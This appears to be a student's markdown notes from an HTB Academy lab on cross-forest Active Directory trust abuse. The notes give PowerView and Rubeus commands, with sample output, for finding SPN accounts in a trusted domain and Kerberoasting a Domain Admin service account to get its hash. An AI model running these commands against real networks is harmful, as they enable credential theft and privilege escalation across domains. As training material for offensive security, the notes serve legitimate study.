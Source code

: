 # 🌲 **Cross-Forest Trust Abuse - from Windows**

## 🎯 **HTB Academy: Active Directory Enumeration & Attacks**

### 📍 **Overview**

**Cross-Forest Trust Abuse** exploits bidirectional forest trust relationships to expand attack scope beyond the initial compromise domain. These techniques leverage trust authentication flows to perform attacks like Kerberoasting, identify administrative privilege overlap, and abuse foreign group memberships for lateral movement across forest boundaries.

---

## 🎫 **Cross-Forest Kerberoasting**

### **Attack Methodology**
- **Trust requirement**: Bidirectional or inbound forest trust
- **Target identification**: SPNs in trusted domains
- **Execution scope**: Kerberos ticket requests across trust boundaries
- **Goal**: Crack service account hashes for privileged access

### **Enumeration & Exploitation**

#### **SPN Discovery in Target Domain**
```powershell
# Enumerate accounts with SPNs in trusted domain
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

# Example output:
samaccountname
--------------
krbtgt
mssqlsvc
```

#### **Target Assessment**
```powershell
# Check group membership for privileged accounts
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof

# Example output:
samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

#### **Cross-Forest Kerberoasting Execution**
```powershell
# Perform Kerberoasting across forest trust
.\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

# Key output indicators:
# [*] Target Domain          : FREIGHTLOGISTICS.LOCAL
# [*] Total kerberoastable users : 1
# [*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$...
```

---

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS> whoami
[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS> ipconfig /all
